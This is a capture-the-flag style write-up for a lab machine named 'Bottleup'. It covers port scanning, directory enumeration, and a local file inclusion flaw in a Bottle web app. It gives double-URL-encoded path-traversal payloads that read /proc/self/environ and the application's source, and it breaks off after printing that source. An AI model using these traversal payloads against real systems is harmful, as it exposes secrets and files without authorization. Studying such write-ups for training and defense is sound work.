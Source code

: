 # Bottleup - Writeup

## Initial Enumeration

### Port Scanning
A basic port scan revealed only two standard services running:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http    Bottle web server (Python 3.8.10)
```

### Web Enumeration
The target was running a web application built with the Bottle Python framework. Initial exploration of the web interface showed a simple blog application.

I performed directory enumeration to identify potential attack vectors:
```bash
feroxbuster -u http://192.168.185.246:8080 -w /usr/share/wordlists/dirb/common.txt
```

This revealed several endpoints, including a potentially vulnerable `/view` endpoint.

## Gaining Initial Access

### Local File Inclusion Vulnerability
I discovered that the `/view` endpoint was vulnerable to Local File Inclusion (LFI):
```
http://192.168.185.246:8080/view?page=%252e%252e%252f%252e%252e%252f%2Fproc%2Fself%2Fenviron
```

This vulnerability allowed me to read system files. I used it to identify the application's execution directory:
```
http://192.168.185.246:8080/view?page=%252e%252e%252f%252e%252e%252f%252fopt%252fbottle-blog%252fapp.py
```

### Application Source Code Disclosure
The LFI vulnerability exposed the application's source code:
```python
from bottle import route, run, static_file,template,request,response,error
from config.secret import secret 
import os 
import urllib
import re
@route("/")
def home():
    session = request.get_cookie('name',secret=secret)
    if (not session):
        session={"name":"guest"}
        response.set_cookie('name',session,secret=secret)

    return template('index',name=session['name'])

@route('/static/js/<filename>')
def server_static(filename):
    return static_file(filename, root=os.getcwd()+'/views/js/')

@route('/static/css/<filename>')
def server_static(filename):
    return static_file(filename, root=os.getcwd()+'/views/css/')
```